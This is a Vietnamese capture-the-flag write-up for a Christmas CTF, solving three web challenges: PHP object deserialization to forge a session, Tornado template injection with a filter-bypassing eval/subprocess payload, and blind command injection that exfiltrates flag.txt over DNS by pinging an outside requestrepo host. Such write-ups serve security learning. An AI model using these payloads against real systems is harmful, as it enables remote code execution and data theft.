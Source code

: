 # LUCKY BOIZ

## PHÂN TÍCH

Đây là một bài về lỗi php deserialize.

``` 
if(isset($_SESSION["user"])){
    if($_SESSION["user"]==="santa_claus ")  echo "".$flag;
}
```
Ta thấy để có flag thì $_SESSION["user"] phải bằng với "santa_claus "

Bài này nó cho phép ta gửi 1 tham số là ser trong get request sau đó deserialize giá trị này.
```
if (isset($_GET['ser'])) unserialize($_GET['ser']);
```
Đây là class secret mà để cho , giờ ta tìm cách để sau khi unserialize ta có $_SESSION["user"] = "santa_claus "

![](images/2021-12-25-06-55-04.png)

```
   __toString sẽ được gọi khi object được xử lí như một string 

   __destruct sẽ được gọi khi một object bị huỷ đi or không còn đƯợc sử dụng 

   Tham khảo: https://www.php.net/manual/en/language.oop5.magic.php

```
Và mục tiêu của ta là ghi vào file /tmp/sess_PHPSESSIONID vì file này lưu những giá trị của biến $_SESSION (mỗi user sẽ có một cái khác nhau) và thay đổi nó thành giá trị "santa_claus ". Và định dạng được lưu trong file này là dạng serialize

Vd: nếu $_SESSION["user"] = "d47" thì nội dung của file sẽ là: `user|s:3:'d47';`


## KHAI THÁC

```
<?php
class secret {
}

$s = new secret();
$s->yoursecret = $s; // Để trigger hàm __toString nó sẽ trả về kết quả là $secret1 sẽ bằng $secret
$s->descript = "user|s:12:'santa_claus ';"; // Nội dung của file sesion mà ta muốn ghi
$s->filename = "sess_eabe6fc0553da759da5383b2d5d24e9d"; // Tên file sẽ được ghi vào

var_dump(serialize($s)); 
```
` FLAG: ChristCTF{Nô-en-Zui-zẻ-nhe!,Mấy-bạn-có-gấu-chưa-chứ-tui-có-gấu-rồi-đó} flag gây tổn thương sâu sắc đến ae đang chơi :((`

# Mini Con cu lay tờ 

## PHÂN TÍCH

Đề cho ta một cái ô input và ta sẽ nhập giá trị và sau đó sẽ tính toán kết quả trả về, sau một hồi fuzz thì mình thấy nó dính SSTI, mà phía backend đang code bằng python . Lúc đầu mình bị mắc chỗ này lâu vc, vì nghĩ là nó đang sài template là jinja2, nhưng méo phải nó đang sài tornado

Vậy giờ kiếm payload của thằng này để lấy flag thôi.

## KHAI THÁC

` PAYLOAD: eval('__import__("subpr"+"ocess").getoutput("ls")')` do đề filter chữ subprocess nên ta cộng chuỗi ở đấy để bypass

![](images/2021-12-25-07-10-56.png)

` FLAG: ChristCTF{M1N1_G1FT_4_XMA5} `

# CaptureME

## PHÂN TÍCH

Bài này chỉ có endpoint duy nhất nên ta chỉ cần tập trung vào mình nó.

![](images/2021-12-25-07-17-32.png)



Mình thấy cái hàm `inetChecksite` này khá lạ và nó thuộc package `systeminformation`, kiểm tra version của nó trong file `package.json`, sau đó gu gồ , thì thấy thằng này có dính lỗi `command injection`. Nhưng trong bài này là dạng `blind commnad injection` vì output sẽ không được trả ra.


Tới đây mình nghĩ sẽ tạo một reverse-shell, nhưng mọi cách đều failed vì trên phía server đã chặn hết các giao thức. Ban đầu mình sử dụng curl để gửi request đến server của mình thì ok, nhưng sau đó dùng curl để upload file `flag.txt` thì đã bị chặn or filter.
Sau một hồi fuzzing thì mình tìm đến `DNS`, vì hầu như ứng dụng web nào cũng đều hỗ trợ giao thức DNS. 


Nhưng mà loay hoay một hồi mình sài lệnh nslookup, dig, host, blabla nó vẫn ko work. Cuối cùng sài lệnh ping thì lại oke . Cảm ơn Santa kkk

## EXPLOIT

` PAYLOAD: http://45.119.84.224:4000/CaptureSite?url[]=$(ping%20`cat%20flag.txt`.ekiajtf3.requestrepo.com)`

` FLAG: ChristCTF{R3v3r53_5h3ll_i5_v3ry_345y_5738246dhcbw}`

### Cuối cùng xin cảm ơn câu lạc bộ ATTT của đại học PTIT đã tạo ra sân chơi hữu ích vào đúng dịp Noel, để ae ko có gấu vào chơi cho đỡ buổn.